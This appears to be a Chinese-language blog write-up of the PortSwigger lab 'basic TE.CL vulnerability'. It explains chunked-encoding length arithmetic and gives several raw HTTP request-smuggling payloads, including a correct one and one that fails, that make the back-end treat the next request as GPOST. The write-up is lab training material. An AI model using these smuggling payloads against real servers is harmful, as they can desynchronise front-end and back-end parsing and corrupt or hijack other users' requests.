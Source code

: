 ```yaml
---
layout: post
title: "basic TE.CL vulnerability"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_HTTP_Request_Smuggling
author: ""
tags: ['PortSwigger_Lab', 'HTTP_Request_Smuggling']
---
```




# basic TE.CL vulnerability

本實驗涉及前端和後端服務器，後端服務器不支持分塊編碼。 前端服務器拒絕不使用 GET 或 POST 方法的請求。

解決實驗室，偷偷向後端服務器發送一個請求，讓後端服務器處理的下一個請求出現使用GPOST方法。

hint:
在請求走私攻擊中手動修復長度字段可能很棘手。 我們的 HTTP Request Smuggler Burp 擴展旨在提供幫助。 您可以通過 BApp Store 安裝它。
筆記

本實驗旨在演示 HTTP 請求走私背後的基本概念。 如果您繼續關注我們的學習材料，我們還有更多的實驗室可以教您如何利用這些漏洞進行一些高嚴重性攻擊。




這題是:

proxy 接受 TE

server 接受 CL

先定義TE

抓包送到repeater 把 update Content-Length 選項關了。
我們不要它自動更新數據長度



這題我在Transfer-Encoding: chunked 的計算已經算是大師了。

```http
POST / HTTP/1.1
Host: 0a76004c04aab6ecc0151cd000fe0039.web-security-academy.net
Cookie: session=ZxScVOqwvckYkAzZle4x4ipm8RYgic0H
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

16
GPOST / HTTP/1.1

11
0


```

關鍵:
每個chunk = data + \\r\\n 
結尾chunk = 0+\\r\\n\\r\\n

定義:
0x16 = 22 也就是說這個chunk 的資料是22 bytes 


1.GPOST / HTTP/1.1 長度為 16 + \\r\\n (結尾)  長度 18

2.空行 = \\r\\n  長度 2

3.捕2個1  長度 2 。(現在總長度為22)

4. 也就是 data 塊已經完成了， 但結尾要加上\\r\\n  才算是一個chunk ( 剛好是一個換行 )

5. 0 作為結尾chunk後面必須加上\\r\\n\\r\\n

6.所以要換行兩次。


也可以這樣，如果看懂前面絕對可以理解。
```http
POST / HTTP/1.1
Host: 0a50009d039fe628c0ea048100e000c2.web-security-academy.net
Cookie: session=6JhQFMepcUtQOu1xu6PPhTTYoHzx9sLI
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

16
GPOST / HTTP/1.1
空行
空行
空行
0


```


但是可別這樣:
因為 通常header 跟數據是要一個空行做區別的，你這樣去提交會失敗。
```http
POST / HTTP/1.1
Host: 0a50009d039fe628c0ea048100e000c2.web-security-academy.net
Cookie: session=6JhQFMepcUtQOu1xu6PPhTTYoHzx9sLI
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

16
GPOST / HTTP/1.1
11

0


```



最後講解一下資料傳輸邏輯:
```http
POST / HTTP/1.1
Host: 0a50009d039fe628c0ea048100e000c2.web-security-academy.net
Cookie: session=6JhQFMepcUtQOu1xu6PPhTTYoHzx9sLI
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

16
GPOST / HTTP/1.1
空行
空行
空行
0


```

前端 proxy 是 吃 Transfer-Encoding: chunked 這個 header

也就是說整個數據包可以完整的通過 proxy

proxy 把這個包 -> server

server 是吃 Content-Length: 4

它認為data 只有 4bytes 

也就是  1 6 \\r \\n 這4個。

所以後面的數據卡在了server 記憶體中:
```http
GPOST / HTTP/1.1
空行
空行
空行
0

```

下一次有人發出get 請求
就會變成這樣:
```http

GPOST / HTTP/1.1
空行
空行
空行
0

GET / HTTP/1.1
Host: 0a50009d039fe628c0ea048100e000c2.web-security-academy.net
Cookie: session=6JhQFMepcUtQOu1xu6PPhTTYoHzx9sLI
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close


```

於是走私了一個數據包，發出了一個GPOST 請求。伺服器會先處理 GPOST